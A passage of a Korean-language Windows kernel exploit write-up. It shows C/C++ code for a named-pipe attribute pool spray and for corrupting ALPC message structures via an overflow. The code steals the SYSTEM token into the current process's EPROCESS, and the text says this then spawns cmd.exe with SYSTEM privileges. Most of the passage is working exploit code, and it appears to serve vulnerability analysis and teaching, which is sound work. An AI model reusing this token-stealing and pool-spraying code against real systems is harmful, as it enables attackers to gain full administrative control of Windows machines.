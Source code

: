 ```cpp
BOOL PipePoolSprayAlloc(SIZE_T poolSize, UINT sprayCount, BYTE* pAttr, PCSTR szPrefix) {
    BOOL bRet = TRUE;
    SIZE_T attrSize = poolSize - 0x28;

    // sprayCount만큼 같은 크기의 PA(PIPE Attribute) 구조체를 생성
    for (UINT i = 0; i < sprayCount; i++) {
        snprintf((CHAR*)pAttr, attrSize, "%s%x", szPrefix, i);
        if (!PipeWriteAttr(pAttr, attrSize)) {
            bRet = FALSE;
            break;
        }
    }
    return bRet;
}

// 사용 예시
result = PipePoolSprayAlloc(0x1000, SPRAY_COUNT, pAttr, "a");
result = PipePoolSprayAlloc(0x1000, SPRAY_COUNT, pAttr, "b");

```

**3. ALPC 구조체 조작을 통한 권한 상승(EoP)**

오버플로우로 ALPC 메시지/리소스(`g_message`, `g_reserve`) 구조체 내부 포인터와 필드가 공격자가 원하는 값으로 변합니다. 이후 `NtAlpcSendWaitReceivePort()` 호출을 통해 수정된 ALPC 구조체를 사용하게 만들면, **임의 커널 포인터에 접근**하거나, EPROCESS 구조를 **재설정**하는 것 등이 가능해집니다.

```c
// 처음에는 system EPROCESS에서 Token을 읽어옴
pAlpcMsgData[0] = ullSystemEPROCaddr; // AttributeValue
pAlpcMsgData[1] = 0x00787878;         // name
for (int i = 0; i < g_portCount; i++) {
    status = NtAlpcSendWaitReceivePort(g_ports[i], ALPC_MSGFLG_NONE,
                                       (PPORT_MESSAGE)alpcMessage, NULL,
                                       NULL, NULL, NULL, NULL);
}

// 이후 g_message->ExtensionBuffer를 현재 프로세스 EPROCESS + Token 오프셋으로 설정
g_message->ExtensionBuffer      = (BYTE*)ullEPROCaddr + tokenOffset;
g_message->ExtensionBufferSize  = 8;

// ALPC 메시지에 system Token 값을 대입
pAlpcMsgData[0] = ullToken; // system Token
for (int i = 0; i < g_portCount; i++) {
    NtAlpcSendWaitReceivePort(g_ports[i], ALPC_MSGFLG_NONE,
                              (PPORT_MESSAGE)alpcMessage, NULL,
                              NULL, NULL, NULL, NULL);
}

```

실제로 코드의 마지막 부분에서 `g_message->ExtensionBuffer`를 커널 내 EPROCESS의 `Token` 필드 위치로 설정하고, 그 값을 시스템(`SYSTEM`)의 토큰으로 바꾸는 과정을 볼 수 있습니다. 이로써 현재 프로세스가 **SYSTEM 권한**을 획득하게 되고, 이어서 `CreateProcess("cmd.exe", ...)`를 실행하여 **권한 상승(EoP)이 완성**됩니다.
